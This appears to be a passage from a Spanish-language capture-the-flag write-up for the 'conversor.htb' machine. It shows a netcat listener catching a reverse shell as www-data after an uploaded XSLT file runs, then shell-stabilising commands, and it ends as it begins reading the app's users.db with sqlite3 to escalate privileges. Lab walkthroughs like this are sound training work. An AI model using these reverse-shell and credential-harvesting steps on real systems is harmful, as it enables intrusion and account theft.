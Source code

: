 ```xsl
  </ptswarm:document>
</xsl:template>

</xsl:stylesheet>
```

Antes de subir este archivo, vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si subimos el archivo y accedemos al `HTML` que nos ha generado, veremos una pantalla en blanco, pero si volvemos a donde tenemos la escucha y esperamos unos minutos, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.220] from (UNKNOWN) [10.10.11.92] 53128
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell` (`TTY`).

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user

Recordemos que antes en el `app.py` vimos que apuntaba a un `.db` en la siguiente ruta el cual vamos a leer de esta forma:

```shell
cd /var/www/conversor.htb/instance/
sqlite3 users.db
```

Info:
